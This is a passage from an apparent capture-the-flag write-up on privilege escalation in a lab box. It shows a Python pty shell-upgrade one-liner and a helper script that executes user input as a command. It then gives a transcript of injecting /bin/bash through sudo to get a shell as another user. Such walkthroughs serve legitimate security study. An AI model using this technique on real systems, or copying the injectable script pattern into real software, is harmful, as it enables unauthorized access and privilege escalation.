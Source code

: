 I tried running the script with sudo permissions, but still had a little problem.

```
$ sudo bash .helpline.sh
sudo: no tty present and no askpass program specified
```

So I ran `python3 -c 'import pty; pty.spawn("/bin/bash")'` command that is used to spawn an interactive shell with pseudo-terminal (PTY) capabilities from within a Python session. It is often used in situations where a user wants to upgrade their current shell session to a more interactive and feature-rich shell.

```
$ python3 -c "import pty; pty.spawn('/bin/bash')"
www-data@ubuntu:/var/www/html/secret$
```

Now I need a way to get a shell via the `.helpline.sh` file, but the `www-data` user doesn't have write permissions on the file, so I can't edit it.

```bash
#!/bin/bash

echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo

read -p "Enter the person whom you want to talk with: " person

read -p "Hello user! I am $person,  Please enter your message: " msg

$msg 2>/dev/null

echo "Thank you for your precious time!"

```

With this script I can insert commands in the `$msg` variable because it is a user-input variable that is later executed as a command in the script. The value provided by the user in the `$msg` variable is treated as a command and executed using the shell interpreter.

```
www-data@ubuntu:/var/www/html/secret$ sudo -u apaar /home/apaar/.helpline.sh
sudo -u apaar /home/apaar/.helpline.sh

Welcome to helpdesk. Feel free to talk to anyone at any time!

Enter the person whom you want to talk with: Batman
Batman
Hello user! I am Batman,  Please enter your message: /bin/bash
/bin/bash
whoami
whoami
apaar

```
